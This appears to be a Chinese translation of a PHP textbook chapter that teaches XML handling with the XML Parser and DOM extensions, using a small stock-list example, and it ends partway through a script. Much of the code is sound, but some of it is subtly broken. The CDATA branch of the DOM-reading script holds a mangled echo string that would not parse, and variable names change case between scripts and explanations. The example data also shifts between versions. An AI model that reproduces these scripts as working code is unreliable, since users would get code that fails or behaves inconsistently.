使用 XML Parser 时，你需要创建函数来处理特定事件——例如遇到 XML 元素的开始或结束时——然后将这些函数注册为解析器的事件处理程序。此后，每当解析器遇到 XML 文档的新片段时，它就会调用相应的事件处理程序函数，进而处理该文档片段。

使用 XML Parser 读取 XML 文档的过程通常分解如下：

- 1. 调用 xml_parser_create() 函数创建一个新的解析器资源。
- 2. 创建两个事件处理程序函数来处理 XML 元素的开始和结束，然后使用 xml_set_element_handler() 函数将这些函数注册到解析器。
- 3. 创建另一个事件处理程序函数来处理元素内可能存在的任何字符（文本）数据，并使用 xml_set_character_data_handler() 将该函数注册到解析器。
- 4. 调用 xml_parse() 函数解析 XML 文档，传入解析器和要解析的 XML 字符串。
- 5. 最后，如果不再需要解析器资源，请调用 xml_parser_free() 销毁它。

接下来，你将更详细地探索这些步骤中的每一个。

### 创建新解析器

创建新解析器的过程很简单。只需调用 xml_parser_create() 生成一个新的解析器资源，并将资源存储在变量中：

```
$parser = xml_parser_create();
```

你可以选择添加一个参数，指定将字符数据传递给事件处理程序函数时使用的编码。默认情况下，解析器使用 UTF-8 编码发送字符，但如果你愿意，可以将其更改为 ISO-8859-1 或 US-ASCII。例如：

```
$parser = xml_parser_create( "US-ASCII" );
```

### 创建事件处理程序

现在你有了一个可用的解析器，需要创建函数来处理 XML 元素的开始、元素的结束以及字符数据。

处理元素开始的函数需要接受三个参数：解析器资源、元素名称和元素中任何属性的关联数组。例如：

```php
function startElementHandler( $parser, $element, $attributes )
{
    // (process the start of the element)
}
```

结束元素处理程序类似，但不需要处理属性：

```php
function endElementHandler( $parser, $element )
{
    // (process the end of the element)
}
```

最后，字符数据处理程序需要接受解析器资源以及包含字符数据的字符串。例如：

```php
function characterDataHandler( $parser, $data )
{
    // (process the character data)
}
```

显然，示例处理程序不会对元素或数据进行任何实际处理。你马上就要编写实际的处理程序了。

创建完三个事件处理程序后，将它们注册到解析器。要注册开始和结束处理程序，请使用 `xml_set_element_handler()`，传入解析器资源，然后作为字符串传入开始元素处理程序和结束元素处理程序函数的名称。例如：

```php
xml_set_element_handler( $parser, "startElementHandler", "endElementHandler" );
```

要注册字符数据处理程序，请调用 `xml_set_character_data_handler()`，传入解析器资源，然后作为字符串传入处理程序函数的名称：

```php
xml_set_character_data_handler( $parser, "characterDataHandler" );
```


## Parsing the XML Document

现在你已经准备好实际解析文档。首先，如果文档是磁盘上的文件或 URL，你需要使用例如 PHP 的 `file_get_contents()` 函数将其内容读入字符串变量。一旦将 XML 放入字符串变量，就调用 `xml_parse()`，传入你之前创建的解析器资源以及字符串变量名。例如：

```
$xml = file_get_contents ( "xml_document.xml" );
xml_parse( $parser, $xml );
```

解析器随后处理字符串变量的内容，在适当的时候调用你的事件处理程序函数，直到读完所有 XML 数据。如果解析器成功解析了所有数据，则返回 `true`；否则返回 `false`。

有关 `file_get_contents()` 和其他文件相关函数的更多信息，请参见第 11 章。

如果你愿意，可以分块解析 XML 数据；如果你有大量 XML 数据且不想一次性全部读入内存，这会很有用。具体做法是，不断调用 `xml_parse()`，将新的数据块作为第二个参数传入。在传递最后一个数据块时，向 `xml_parse()` 传递第三个值 `true`，以告知它已到达 XML 末尾：

```
xml_parse( $parser, $xml, true );
```

解析完 XML 后，最好删除解析器以释放内存。具体做法是使用 `xml_parser_free()`，如下所示：

```
xml_parser_free( $parser );
```

## Dealing with Parse Errors

如果 `xml_parse()` 的调用返回 `false`，则说明解析 XML 文档时出现了问题。你可以通过调用各种 XML Parser 函数来找出问题的确切原因：

| 函数 | 描述 |
|---|---|
| `xml_get_error_code( $parser )` | 返回指示最近错误的错误代码 |
| `xml_error_string( $code )` | 返回与提供的错误代码关联的错误字符串 |
| `xml_get_current_line_number( $parser )` | 返回 XML 文档中当前解析行的行号（即发生错误的行） |
| `xml_get_current_column_number( $parser )` | 返回 XML 文档中当前解析的列号（即发生错误的位置） |

例如，可以使用以下方式显示最后的解析器错误消息：

```
echo xml_error_string( xml_get_error_code( $parser ) );
```

如果需要，可以在解析过程中的任何时候调用 `xml_get_current_line_number()` 和 `xml_get_current_column_number()`，而不仅在发生错误时调用。这有助于了解解析器在文档中处理到了哪个位置。

## Try It Out Parsing an XML File

下面是 XML Parser 运行时的一个简单示例。你将打开硬盘上的 XML 文档并解析它，边解析边显示其元素和属性。你可以对任何喜欢的 XML 文档尝试此示例，但本示例使用的是本章前面创建的 stockList XML 文档：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockList SYSTEM "http://www.example.com/dtds/stockList.dtd">
<stockList>
	<item type="fruit">
		<name>apple</name>
		<unitPrice>0.99</unitPrice>
		<quantity>412</quantity>
		<description><![CDATA[Apples are >>yummy<<]]></description>
	</item>
	<item type="vegetable">
		<name>beetroot</name>
		<unitPrice>1.39</unitPrice>
		<quantity>67</quantity>
		<description><![CDATA[Beetroots are lovely & purple]]></description>
	</item>
</stockList>
```

将此文件另存为文档根目录下的 stock_list.xml，以便解析器脚本读取。

接下来是解析器脚本本身。将其另存为文档根目录下的 xml_parser.php：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
	"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
	<head>
		<title>Parsing an XML File</title>
		<link rel="stylesheet" type="text/css" href="common.css" />
	</head>
	<body>
		<h1>Parsing an XML File</h1>
		<pre>

<?php
/**
Start element handler:
Processes the start of an XML element, displaying the
element name as well as any attributes
*/
function startElementHandler( $parser, $element, $attributes )
{
    echo "Start of element: \"$element\"";
    if ( $attributes ) echo ", attributes: ";
    foreach ( $attributes as $name => $value ) echo " $name=\"$value\" ";
    echo "\n";
}

/**
End element handler:
Processes the end of an XML element, displaying the
element name
*/
function endElementHandler( $parser, $element )
{
    echo "End of element: \"$element\"\n";
}

/**
Character data handler:
Processes XML character data, displaying the data
*/
function characterDataHandler( $parser, $data )
{
    if ( trim( $data ) ) echo " Character data: \"" . htmlspecialchars( $data ) . "\"\n";
}

/**
Error handler:
Called if there was a parse error. Retrieves and
returns information about the error.
*/
function parseError( $parser )
{
    $error = xml_error_string( xml_get_error_code( $parser ) );
    $errorLine = xml_get_current_line_number( $parser );
    $errorColumn = xml_get_current_column_number( $parser );
    return "<b>Error: $error at line $errorLine column $errorColumn</b>";
}

// Create the parser and set options
$parser = xml_parser_create();
xml_parser_set_option( $parser, XML_OPTION_CASE_FOLDING, false );

// Register the event handlers with the parser
xml_set_element_handler( $parser, "startElementHandler",
"endElementHandler" );
xml_set_character_data_handler( $parser, "characterDataHandler" );

// Read and parse the XML document
$xml = file_get_contents( "./stock_list.xml" );
xml_parse( $parser, $xml ) or die( parseError( $parser ) );
xml_parser_free( $parser );
?>
</pre>
</body>
</html>
```

现在通过在本地网站中访问其 URL 来运行脚本。你应该会看到类似图 19-1 的页面。


图 19-1

## How It Works

在包含标准 XHTML 页面标头后，脚本会创建三个事件处理程序函数。startElementHandler() 函数显示元素名称，如果元素有任何属性，则依次显示它们的名称和值。endElementHandler() 函数只需宣布元素结束并显示其名称，而 characterDataHandler() 函数显示任何不完全由空白字符组成的字符数据，并使用 PHP 的 htmlspecialchars() 函数确保只生成有效的 XHTML：

```php
function startElementHandler( $parser, $element, $attributes )
{
echo "Start of element: \"$element\"";
if ( $attributes ) echo ", attributes: ";
foreach ( $attributes as $name => $value ) echo "$name=\"$value\" ";
echo "\n";
}
```

```php
function endElementHandler( $parser, $element )
{
echo "End of element: \"$element\"\n";
}
```

```php
function characterDataHandler( $parser, $data )
{
if ( trim( $data ) ) echo " Character data: \"" . htmlspecialchars( $data ) . "\"\n";
}
```

脚本中的下一个函数是 parseError()。如果解析 XML 文件时出现错误，脚本稍后会调用它。它使用 XML Parser 函数 xml_get_error_code()、xml_error_string()、xml_get_current_line_number() 和 xml_get_current_column_number() 来显示错误消息和错误位置：

```php
function parseError( $parser )
{
$error = xml_error_string( xml_get_error_code( $parser ) );
$errorLine = xml_get_current_line_number( $parser );
$errorColumn = xml_get_current_column_number( $parser );
return "<b>Error: $error at line $errorLine column $errorColumn</b>";
}
```

函数定义完毕后，现在是使用 xml_parser_create() 创建解析器的时候了。脚本还使用 PHP 的 xml_parser_set_option() 函数将 XML_OPTION_CASE_FOLDING 解析器选项设置为 false。默认情况下，XML Parser 会将传递给事件处理程序的所有数据转换为大写；在实际中这并不太有用，因为 XML 区分大小写，因此脚本关闭了此选项：

```php
$parser = xml_parser_create();
xml_parser_set_option( $parser, XML_OPTION_CASE_FOLDING, false );
```


与 XML_OPTION_CASE_FOLDING 类似，你可以使用 XML_OPTION_SKIP_TAGSTART 跳过标签名称开头的指定数量字符，使用 XML_OPTION_SKIP_WHITE 跳过仅由空白字符组成的值，并使用 XML_OPTION_TARGET_ENCODING 设置发送到事件处理程序的字符编码，这与之前描述的可传递给 xml_parser_create() 的可选参数类似。有关更多详细信息，请参阅在线 PHP 手册 http://www.php.net/manual/en/book.xml.php。

接下来，脚本使用 xml_set_element_handler() 和 xml_set_character_data_handler() 注册之前创建的三个事件处理程序：

```
xml_set_element_handler( $parser, "startElementHandler", "endElementHandler" );
xml_set_character_data_handler( $parser, "characterDataHandler" );
```

最后，脚本将要解析的文件读入变量，然后调用 xml_parse() 解析变量的内容。如果 xml_parse() 返回 false，脚本将使用 die() 退出，并通过调用前面提到的 parseError() 函数显示问题详细信息。如果解析成功，脚本在完成 XHTML 页面之前销毁解析器资源。

```
$xml = file_get_contents( "./stock_list.xml" );
xml_parse( $parser, $xml ) or die( parseError( $parser ) );
xml_parser_free( $parser );
?>
</pre>
</body>
</html>
```

你可以使用许多其他 XML Parser 函数来读取 XML 文档，例如 xml_parse_into_struct()（它从 XML 文档生成一个值数组）和 xml_set_default_handler()（它允许你指定一个事件处理程序来处理 XML 文档的其他部分，例如 DOCTYPE 行）。有关更多详细信息，请参阅 http://www.php.net/manual/en/book.xml.php。

## 使用 PHP 编写和操作 XML 文档

尽管 XML Parser 是一个非常有用的扩展，但它只能读取 XML 文档；它无法修改文档或创建新文档。此外，基于事件的解析方法并不总是最容易使用的。

另一种方法是使用 DOM 扩展。DOM 代表文档对象模型，它是一种将 XML 文档的各种节点（元素、属性等）表示为对象树的方式。如果你在 JavaScript 中使用过 DOM，那么你很幸运——PHP DOM 类的工作方式非常相似。

DOM 是一种非常灵活的工作方式。使用 DOM 扩展，你可以将 XML 文档读取为对象树，然后随意遍历这棵树，以探索文档中的各种元素、属性、文本节点和其他节点。你还可以随意更改这些节点中的任何一个，甚至可以从头开始创建一个新的 DOM 文档，这一切都使用各种 DOM 类和方法。最后，你可以将 DOM 文档写出为普通的 XML 字符串，用于存储或发送。

在接下来的部分中，你将探索所有这些 DOM 技术。

你可以将树结构视为一棵真正的树，根节点在底部，叶节点在顶部；也可以将其视为家谱树，根节点位于树的顶层，其所有子节点、孙节点等位于其下方。本章在可视化 DOM 树时通常采用后一种方法。

### DOM 基础

在使用 DOM 读取、编写和以其他方式处理 XML 文档之前，了解 DOM 扩展的一些基本原理会有所帮助。你通过各种类访问 DOM 扩展，其中最常见的类在下表中列出：

| DOM 类 | 描述 |
|---|---|
| DOMNode | 表示 DOM 树中的单个节点。大多数 DOM 类都继承自 DOMNode 类 |
| DOMDocument | 以 DOM 树的形式存储整个 XML 文档。它继承自 DOMNode 类，并有效地是树的根 |
| DOMElement | 表示元素节点 |
| DOMAttr | 表示元素的属性 |
| DOMText | 表示纯文本节点 |
| DOMCharacterData | 表示 CDATA（字符数据）节点 |

要开始使用 DOM 文档，首先创建一个 DOMDocument 对象：

```
$doc = new DOMDocument();
```

然后，你可以使用此对象读取或写出 XML 文档；检查和更改文档中的各种节点；以及从文档树中添加或删除节点。

### 尝试：使用 DOM 读取 XML 文档

此前你使用 XML Parser 扩展读取并解析 XML 文档，显示文档中的每个元素、属性和文本项。在本示例中，你将使用 DOM 扩展来做大体相同的事情。

这是脚本。将其保存为文档根目录下的 dom_read_document.php。确保之前尝试示例中的 stock_list.xml 文件在同一文件夹中；如果不在，请按前面的说明创建它。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Reading an XML File with the DOM Extension</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Reading an XML File with the DOM Extension</h1>
<pre>
<?php
// Read the XML document into a DOMDocument object
$doc = new DOMDocument();
$doc->load( "./stock_list.xml" );
// Traverse the document
traverseDocument( $doc );
/*
* Traverses each node of the DOM document recursively
*/
function traverseDocument( $node )
{
switch ( $node->nodeType )
{
case XML_ELEMENT_NODE:
echo "Found element: \"$node->tagName\"";
if ( $node->hasAttributes() ) {
echo " with attributes: ";
foreach ( $node->attributes as $attribute ) {
echo "$attribute->name=\"$attribute->value\"";
}
}
echo "\n";
break;
case XML_TEXT_NODE:
if ( trim($node->wholeText) ) {
echo "Found text node: \"$node->wholeText\"\n";
}
break;
case XML_CDATA_SECTION_NODE:
    if ( trim($node->data) ) {
        echo "Found character data node: \"\" .
            htmlspecialchars($node->data) . "\\\n";
        break;
    }
}
if ( $node->hasChildNodes() ) {
    foreach ( $node->childNodes as $child ) {
        traverseDocument( $child );
    }
}
}
?>
</pre>
</body>
</html>
```

运行此脚本时，你应该会看到类似图 19-2 的页面。


图 19-2

### 工作原理

此脚本将磁盘上的 XML 文件读入 DOMDocument 对象，然后递归遍历文档树的每个节点，并在遍历过程中显示有关该节点的详细信息。

首先，在显示标准 XHTML 页面标题后，脚本创建一个 DOMDocument 对象，然后使用该对象的 load() 方法读取 XML 文件。load() 既易于使用又功能强大；它接受一个参数（要读取的文件名），然后将整个文件读入内存，创建表示 XML 作为 DOM 树所需的所有对象：

```
$doc = new DOMDocument();
$doc->load( "./stock_list.xml" );
```

接下来，脚本调用名为 traverseDocument() 的递归函数来遍历文档：

```
traverseDocument( $doc );
```

此函数接受一个 DOMNode 对象作为参数。请记住，文档的每个节点——包括 DOMDocument 对象本身——本质上都是一个 DOMNode 对象。这意味着你可以将 $doc 对象传递给 traverseDocument() 以开始遍历文档的过程。$doc 对象表示文档的根节点（或顶级节点），文档的所有其他组件都从此节点派生。

请注意，根节点与 XML 文档的根元素并不相同。实际上，根元素是根节点的子节点。

traverseDocument() 做的第一件事是检查它所得到的节点的类型。它使用 DOMNode 对象的 nodeType 属性来完成此操作：

```
switch ( $node->nodeType )
{
```

nodeType 可以有许多值，它们由一组预定义常量表示。以下是一些更常见的常量（你可以在在线 PHP 手册 http://www.php.net/manual/en/dom.constants.php 中获取完整列表）：

| 常量 | 描述 |
|---|---|
| XML_ELEMENT_NODE | 节点是一个元素，表示为 DOMElement 对象 |
| XML_ATTRIBUTE_NODE | 节点是一个属性，表示为 DOMAttr 对象 |
| XML_TEXT_NODE | 节点是一个文本节点，表示为 DOMText 对象 |
| XML_CDATA_SECTION_NODE | 节点是一个 CDATA（字符数据）节点，表示为 DOMCharacterData 对象 |
| XML_COMMENT_NODE | 节点是一个 XML 注释节点，表示为 DOMComment 对象 |
| XML_DOCUMENT_NODE | 节点是文档的根节点，表示为 DOMDocument 对象 |


通过将 nodeType 属性与这些常量进行比较，你可以确定节点的类型，而 traverseDocument( ) 函数正是做这件事。如果是元素节点，它使用 DOMElement 对象的 tagName 属性显示元素的名称。如果元素包含属性（使用 hasAttributes( ) 方法测试），它会遍历存储在元素的 attributes 属性中的 DOMAttr 属性对象数组，并使用对象的 name 和 value 属性显示每个属性的名称和值：

```
case XML_ELEMENT_NODE:
    echo "Found element: \"$node->tagName\"";

    if ( $node->hasAttributes() ) {
        echo " with attributes: ";
        foreach ( $node->attributes as $attribute ) {
            echo "$attribute->name=\"$attribute->value\" ";
        }
    }

    echo "\n";
    break;
```

如果节点是文本节点，函数会测试该节点是否实际包含除空白字符之外的内容（这样可以避免显示 XML 文档中可能存在的任何格式空白字符）。如果包含，函数会显示存储在 DOMText 对象的 wholeText 属性中的节点文本内容：

```
case XML_TEXT_NODE:
    if ( trim($node->wholeText) ) {
        echo "Found text node: \"$node->wholeText\"\n";
    }
    break;
```

如果节点是字符数据节点，同样，函数会显示字符数据，前提是它不仅仅包含空白字符。数据存储在 DOMCharacterData 对象的 data 属性中。另外，因为字符数据节点可能包含“<”和“>”等标记字符，函数会调用 htmlspecialchars( ) 来按需要对任何标记字符进行编码：

```
case XML_CDATA_SECTION_NODE:
    if ( trim($node->data) ) {
        echo "Found character data node: \"" .
            htmlspecialchars($node->data) . "\"\n";
    }
    break;
```

最后，函数使用 DOMNode 对象的 hasChildNodes( ) 方法测试正在处理的节点是否包含任何子节点。如果有子节点，函数会遍历存储在 DOMNode 对象的 childNodes 属性中的每个子节点，并对每个子节点调用自身，从而继续递归过程：

```
if ( $node->hasChildNodes() ) {
    foreach ( $node->childNodes as $child ) {
        traverseDocument( $child );
    }
}
```

## 使用 DOM 创建 XML 文档

现在你知道如何使用 DOM 扩展读取 XML 文档，并且在过程中也探索了一些常见的 DOM 类、属性和方法。你现在已准备好尝试使用 DOM 从头开始创建一个 XML 文档。

你已经知道如何使用 `new DOMDocument()` 创建一个基本的 DOM 文档。创建文档后，只需创建节点，然后将每个节点添加到文档中以构建 DOM 树。

要创建节点，你需要调用 `DOMDocument` 类的各种方法。常用方法包括：

| 方法 | 描述 |
|---|---|
| `createElement( name [, value ] )` | 创建名为 `name` 的元素节点，并可选地将包含 `value` 的文本节点追加到其中 |
| `createTextNode( content )` | 创建包含 `content` 的文本节点 |
| `createCDATASection( data )` | 创建包含 `data` 的字符数据节点 |
| `createComment( data )` | 创建包含 `data` 的注释节点 |

创建节点后，你可以通过调用现有节点的 `appendChild()` 方法将其作为子节点添加到现有节点中：

```
$parentNode->appendChild( $childNode );
```

这样你就可以构建包含根元素节点、其子节点、其孙子节点等等的文档树。

你还可以向元素节点添加属性。简单的方法是使用 `DOMElement` 对象的 `setAttribute()` 方法：

```
$element->setAttribute( "name", "value" );
```

更冗长的方法是使用 DOMDocument 的 `createAttribute()` 方法创建一个 DOMAttr 属性节点，设置属性的 `value` 属性，然后使用元素的 `appendChild()` 方法将属性添加到元素中：

```
$attribute = $doc->createAttribute( "name" );
$attribute->value = "value";
$element->appendChild( $attribute );
```

虽然第二种方法更繁琐，但它确实向你展示了 DOM 文档中几乎所有东西最终都是一个节点——即使属性也是节点。

## 使用 DOM 创建 XML 文档

现在你可以将这些理论付诸实践。你将仅使用 DOM 类和方法，从头开始创建 stock_list.xml 文件的一个几乎完全相同的版本。

下面的脚本就是用来完成此任务的：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Creating an XML File with the DOM Extension</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Creating an XML File with the DOM Extension</h1>
<pre>

<?php
// Create a DOMDocument object and set nice formatting
$doc = new DOMDocument( "1.0", "UTF-8" );
$doc->formatOutput = true;

// Create the root "stockList" element
$StockList = $doc->createElement( "stockList" );
$doc->appendChild( $StockList );

// Create the first "item" element (apple)
$item = $doc->createElement( "item" );
$item->setAttribute( "type", "fruit" );
$StockList->appendChild( $item );

// Create the item's "name" child element
$Name = $doc->createElement( "name", "apple" );
$item->appendChild( $Name );

// Create the item's "unitPrice" child element
$UnitPrice = $doc->createElement( "unitPrice", "0.99" );
$item->appendChild( $UnitPrice );

// Create the item's "quantity" child element
$Quantity = $doc->createElement( "quantity", "412" );
$item->appendChild( $Quantity );

// Create the item's "description" child element
$description = $doc->createElement( "description" );
$item->appendChild( $description );
$cdata = $doc->createCDATASection( "Apples are >>>yummy<<<" );
$description->appendChild( $cdata );

// Create the second "item" element (beetroot)
$item = $doc->createElement( "item" );
$item->setAttribute( "type", "vegetable" );
$StockList->appendChild( $item );

// Create the item's "name" child element
$name = $doc->createElement( "name", "beetroot" );
$item->appendChild( $name );

// Create the item's "unitPrice" child element
$UnitPrice = $doc->createElement( "unitPrice", "1.39" );
$item->appendChild( $UnitPrice );

// Create the item's "quantity" child element
$quantity = $doc->createElement( "quantity", "67" );
$item->appendChild( $quantity );

// Create the item's "description" child element
$description = $doc->createElement( "description" );
$item->appendChild( $description );
$cdata = $doc->createCDATASection( "Beetroots are lovely & purple" );
$description->appendChild( $cdata );

// Output the XML document, encoding markup characters as needed
echo htmlspecialchars( $doc->saveXML() );
?>
</pre>
</body>
</html>
```

将此脚本保存为文档根目录下的 dom_create_document.php，然后运行它。你应该会看到类似图 19-3 的内容。


图 19-3

## 工作原理

如果你迄今为止都跟上了，这个脚本应该相当易于自行理解。在输出 XHTML 页面标题后，它会创建一个新的 DOMDocument 对象，并传入可选参数，分别指定 XML 版本（1.0）和要使用的字符编码（UTF-8）。接着，它将对象的 `formatOutput` 属性设置为 `true`；这样可以确保输出的 XML 格式良好，而不是全部挤在一行上：

```php
$doc = new DOMDocument( "1.0", "UTF-8" );
$doc->formatOutput = true;
```

接下来，脚本创建一个新的 DOMElement 节点来表示根元素 `stockList`，并将此节点作为子节点添加到文档对象中：

```php
$stockList = $doc->createElement( "stockList" );
$doc->appendChild( $stockList );
```

现在是时候创建第一个 `item` 元素，为其赋予值为 "fruit" 的 `type` 属性，并将该元素添加到 `stockList` 元素中：

```php
$item = $doc->createElement( "item" );
$item->setAttribute( "type", "fruit" );
$stockList->appendChild( $item );
```

接下来的几行代码会创建 `item` 元素的所有子元素。每个元素对象都会被创建，然后追加到 `item` 中。`createElement()` 方法允许你传入一个可选的第二个字符串参数，然后用该参数的值构建一个 DOMText 对象，并自动将其追加到新创建的元素中。这样你就不必每次都手动使用 `createTextNode()` 来创建子 DOMText 对象：

```php
// Create the item's "name" child element
$name = $doc->createElement( "name", "apple" );
$item->appendChild( $name );
```

```php
// Create the item's "unitPrice" child element
$unitPrice = $doc->createElement( "unitPrice", "0.99" );
$item->appendChild( $unitPrice );
```

```php
// Create the item's "quantity" child element
$quantity = $doc->createElement( "quantity", "412" );
$item->appendChild( $quantity );
```

但是，要为 `description` 元素创建 CDATA 节点，你必须采用繁琐的方法：

```php
// Create the item's "description" child element
$description = $doc->createElement( "description" );
$item->appendChild( $description );
$cdata = $doc->createCDATASection( "Apples are >>>yummy<<<" );
$description->appendChild( $cdata );
```

接下来，第二个 `item` 元素以类似的方式创建：


```php
// Create the second "item" element (beetroot)
$Item = $doc->createElement( "item" );
$Item->setAttribute( "type", "vegetable" );
$StockList->appendChild( $Item );

// Create the item's "name" child element
$name = $doc->createElement( "name", "beetroot" );
$Item->appendChild( $name );

// Create the item's "unitPrice" child element
$unitPrice = $doc->createElement( "unitPrice", "1.39" );
$Item->appendChild( $unitPrice );

// Create the item's "quantity" child element
$quantity = $doc->createElement( "quantity", "67" );
$Item->appendChild( $quantity );

// Create the item's "description" child element
$description = $doc->createElement( "description" );
$Item->appendChild( $description );
$cdata = $doc->createCDATASection( "Beetroots are lovely & purple" );
$description->appendChild( $cdata );
```

最后，脚本调用文档对象的 `saveXML()` 方法；该方法将文档作为 XML 字符串返回。在将字符串通过 `htmlspecialchars()` 传递以对 "<"、">" 和 "&" 等标记字符进行编码后，结果将显示在页面上：

```php
echo htmlspecialchars( $doc->saveXML() );
```

你会注意到，最终的 XML 文档不包含 `DOCTYPE` 行。虽然可以使用 DOM 向 XML 文档添加 `DOCTYPE`，但这超出了本书的范围。有关详细信息，请参阅在线 PHP 手册中“DOM”部分，网址为 `http://www.php.net/manual/en/book.dom.php`。当然，另一种方法是直接将 `DOCTYPE` 行插入到最终的 XML 文档字符串中。

## 使用 DOM 操作 XML 文档

DOM 类的一大优势在于，它们可以让你轻松地深入 XML 文档，操作单个片段或节点。例如，你可以向元素添加新子元素，删除现有子元素，更改节点或属性值，将元素从文档树的一个部分移动到另一部分，等等。以下各节将探讨其中一些技术。

## 向现有文档添加元素

下面是一个简单示例，它将 `stock_list.xml` 文件读取为 DOM 文档，向 `stockList` 元素添加新的 `item` 元素，然后输出修改后的 XML：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
    <title>Adding an Element to an XML File with the DOM Extension</title>
    <link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Adding an Element to an XML File with the DOM Extension</h1>
<pre>
<?php
// Load the XML file
$doc = new DOMDocument();
$doc->preserveWhiteSpace = false;
$doc->load( "./stock_list.xml" );
$doc->formatOutput = true;

// Get the StockList root element
$StockListElements = $doc->getElementsByTagName( "stockList" );
$StockList = $StockListElements->item( 0 );

// Create a new "item" element and add it to the stockList
$item = $doc->createElement( "item" );
$item->setAttribute( "type", "vegetable" );
$StockList->appendChild( $item );

// Create the item's "name" child element
$name = $doc->createElement( "name", "carrot" );
$item->appendChild( $name );

// Create the item's "unitPrice" child element
$unitPrice = $doc->createElement( "unitPrice", "0.79" );
$item->appendChild( $unitPrice );

// Create the item's "quantity" child element
$quantity = $doc->createElement( "quantity", "31" );
$item->appendChild( $quantity );

// Create the item's "description" child element
$description = $doc->createElement( "description" );
$item->appendChild( $description );
$cdata = $doc->createCDATASection( "Carrots are crunchy" );
$description->appendChild( $cdata );

// Output the XML document, encoding markup characters as needed
echo htmlspecialchars( $doc->saveXML() );
?>
</pre>
</body>
</html>
```

这将生成如下 XML 文档：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockList SYSTEM "http://www.example.com/dtds/stockList.dtd">
<stockList>
  <item type="fruit">
    <name>apple</name>
    <unitPrice>0.99</unitPrice>
    <quantity>412</quantity>
    <description><![CDATA[Apples are >>>yummy<<<]]></description>
  </item>
  <item type="vegetable">
    <name>beetroot</name>
    <unitPrice>1.39</unitPrice>
    <quantity>67</quantity>
    <description><![CDATA[Beetroots are lovely & purple]]></description>
  </item>
  <item type="vegetable">
    <name>carrot</name>
    <unitPrice>0.79</unitPrice>
    <quantity>31</quantity>
    <description><![CDATA[Carrots are crunchy]]></description>
  </item>
</stockList>
```

这里有几个值得注意的新属性和方法。这一行

```php
$doc->preserveWhiteSpace = false;
```

可确保在使用 saveXML() 方法时输出格式整洁。如果 preserveWhiteSpace 属性为 true（这是默认值），则添加到现有文档的任何新节点都会写成单行 XML，而不是格式整齐的输出。

以下行从文档树中检索根 stockList 元素：

```php
// Get the stockList root element
$stockListElements = $doc->getElementsByTagName( "stockList" );
$stockList = $stockListElements->item( 0 );
```

DOMDocument 对象的 getElementsByTagName() 方法返回与所提供的标签名匹配的所有元素列表——在这里就是 "stockList"。该列表作为 DOMNodeList 对象返回，该对象只有一个方法——item()——用于从列表的指定位置提取项，0 指向第一项。因为你知道文档中只有一个名为 "stockList" 的元素，所以你检索第一个元素（索引为 0）并将其存储在 $stockList 变量中以供将来使用。

脚本的其余部分与之前用于从头创建 XML 文档的脚本行为大致相同。会创建一个新的 item 元素——以及其属性和子节点——并使用 $stockList->appendChild() 将其追加到 stockList 元素的末尾。最后，将生成的文档在浏览器中显示。

## 从文档中删除元素

删除元素比添加元素更容易。这里的关键方法是 DOMNode 类的 removeChild() 方法：

```php
$node->removeChild( $child );
```

removeChild() 期望一个子 DOMNode——$child——作为参数。然后它将该节点从父节点 $node 中删除。

在以下示例中，将读取 stock_list.xml 文件，识别 "beetroot" item 元素（与识别 stockList 元素的方式相同）并将其删除，然后显示生成的 XML：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Removing an Element from an XML File with the DOM Extension</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Removing an Element from an XML File with the DOM Extension</h1>
<pre>
<?php
// Load the XML file
$doc = new DOMDocument();
$doc->preserveWhiteSpace = false;
$doc->load( "./stock_list.xml" );
$doc->formatOutput = true;

// Get the stockList root element
$stockListElements = $doc->getElementsByTagName( "stockList" );
$stockList = $stockListElements->item( 0 );

// Get the "beetroot" item element
$itemElements = $doc->getElementsByTagName( "item" );
$beetroot = $itemElements->item( 1 );

// Remove this element from the stockList
$stockList->removeChild( $beetroot );
// Output the XML document, encoding markup characters as needed
echo htmlspecialchars( $doc->saveXML() );
?>
</pre>
</body>
</html>
```

## 更改节点和属性

假设甜菜根正在打折，你想将甜菜根的单价从 1.39 美元更改为 0.79 美元。你该如何操作？

如前面所述，unitPrice 元素在 DOM 中表示为 DOMElement 对象，而其文本节点表示为子 DOMText 对象。DOMText 类具有多种方法，允许你操作节点内容，包括 appendData() 用于在现有字符串末尾添加文本，deleteData() 用于从字符串中删除一个或多个字符，insertData() 用于在字符串的给定位置添加新文本，replaceData() 用于替换给定位置的文本，以及 substringData() 用于从文本中提取子字符串。

在这种情况下，你可以使用 replaceData() 将 1.39 文本值替换为 0.79。下面的脚本正好做了这件事。同时，它通过使用 item DOMElement 对象的 setAttribute() 方法，将“beetroot”项的 type 属性从 vegetable 更改为 rootVegetable：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Changing Content in an XML File with the DOM Extension</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
